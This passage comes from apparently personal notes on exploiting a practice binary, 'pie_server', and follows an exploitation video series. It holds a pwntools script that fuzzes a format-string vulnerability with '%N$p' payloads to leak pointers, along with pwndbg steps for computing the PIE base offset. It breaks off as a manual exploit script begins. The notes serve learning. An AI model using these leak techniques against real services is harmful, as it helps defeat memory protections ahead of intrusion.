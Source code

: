       # Set up pwntools for the correct architecture
      exe = './pie_server'
      # This will automatically get context arch, bits, os etc
      elf = context.binary = ELF(exe, checksec=False)
      # Enable verbose logging so we can see exactly what is being sent (info/debug)
      context.log_level = 'warning'
      
      # ===========================================================
      #                    EXPLOIT GOES HERE
      # ===========================================================
      
      # Let's fuzz x values
      for i in range(100):
          try:
              p = start()
              # Format the counter
              # e.g. %2$s will attempt to print [i]th pointer/string/hex/char/int
              p.sendlineafter(b':', '%{}$p'.format(i).encode())
              # Receive the response
              p.recvuntil(b'Hello ')
              result = p.recvline()
              print(str(i) + ': ' + str(result))
              p.close()
          except EOFError:
              pass
      ```


### 6. Look at video at 14:18
   + Look at video 14:18 https://www.youtube.com/watch?v=NAUA1EB-TZg&list=PLHUKi1UlEgOIc07Rfk2Jgb5fZbxDPec94&index=9
   + `python fuzz.py GDB` - opens gdb after executing 
   + Take the `0x555...` address 
    - Get the PIE's base address (`pwndbg> piebase`)
    - Subtract the two to get the _offset_
     * `pwndbg> x 0x555...5295 - 0x555...4000`
### 7. Manual Exploit Script 
      ```
      from pwn import *
      